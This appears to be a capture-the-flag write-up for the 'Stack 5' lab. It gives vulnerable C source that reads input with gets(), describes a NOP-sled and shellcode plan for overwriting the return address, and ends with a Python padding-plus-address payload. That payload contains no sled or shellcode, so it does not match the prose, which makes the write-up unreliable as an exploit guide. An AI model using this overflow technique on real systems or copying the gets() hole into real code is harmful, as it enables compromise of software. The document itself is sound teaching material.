# Stack 5

Stack 5 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

We can utilize the same padding offset we found in stack4 to overwrite the return address. We have to return from the main function to shellcode that we write to the stack. We will write a NOP sled before the shellcode, and set the main function return address to around the middle of the NOP sled. This will ensure that the exploit works even if the stack moves around due to inconsistencies.



```python
print("".join([chr(i)*4 for i in range(65,84)])+"\xf4\x83\x04\x08")
```
